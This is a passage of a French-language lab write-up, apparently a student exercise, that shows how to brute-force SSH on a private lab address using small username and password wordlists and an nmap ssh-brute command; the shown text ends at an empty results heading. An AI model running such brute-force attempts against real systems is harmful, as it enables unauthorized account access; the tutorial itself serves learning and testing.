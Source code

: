 L'adresse qui nous intéresse ici est le <po>10.0.0.33</po>, car c'est sur cette adresse que nous effectuerons une attaque de type brute force.

<br>

### Attaque brute force

Pour effectuer une attaque brute force, nous devons d'abord construire deux fichiers. Un sera en charge de contenir une énumération de mots de passe et l'autre celui des noms d'utilisateurs. Elles seront ensuite combinées pour accomplir le brute force sur toutes les combinaisons possibles. Ainsi, un fichier plus gros aura pour effet de prendre plus de temps à brute force. 

> Une liste de mot de passe assez garni serait d'utilisé [Rockyou.txt](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt). Cependant, avoir recours à cette liste viendrait ajouter un temps considérable au test. Ainsi, nous allons nous limiter à quelques. options.

<br>

**users.txt**
#### Contiens une liste de nom d'utilisateur potentiel.
Contenu
```txt
wow
root
toor
sudo
who
etienne
gandalf
```

<div style="page-break-after: always;"></div>

**passwords.txt**
#### Contiens une liste de mot de passe potentiel.
Contenu
```txt
po
allo
123
allopo
bella
```

Pour effectuer, une attaque brute force, nous devons exécuter:

```shell
sudo nmap 10.0.0.33 -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=passwords.txt
```

**Résultat**
